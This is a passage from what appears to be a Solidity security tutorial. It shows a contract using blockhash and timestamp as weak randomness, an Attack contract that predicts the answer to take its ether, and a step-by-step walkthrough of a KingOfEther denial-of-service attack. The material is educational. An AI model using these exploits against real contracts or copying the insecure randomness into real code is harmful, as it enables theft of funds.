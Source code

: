 contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```


# 7. Denial of Service

Code: https://solidity-by-example.org/hacks/denial-of-service

There are many ways to attack a smart contract to make it unusable.
One exploit is denial of service by making the function to send Ether fail.

The goal of KingOfEther is to become the king by sending more Ether than
the previous king. Previous king will be refunded with the amount of Ether
he sent.

1. Deploy KingOfEther
2. Alice becomes the king by sending 1 Ether to claimThrone().
2. Bob becomes the king by sending 2 Ether to claimThrone().
   Alice receives a refund of 1 Ether.
3. Deploy Attack with address of KingOfEther.
4. Call attack with 3 Ether.
5. Current king is the Attack contract and no one can become the new king.

What happened?
Attack became the king. All new challenge to claim the throne will be rejected
since Attack contract does not have a fallback function, denying to accept the
Ether sent from KingOfEther before the new king is set.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;
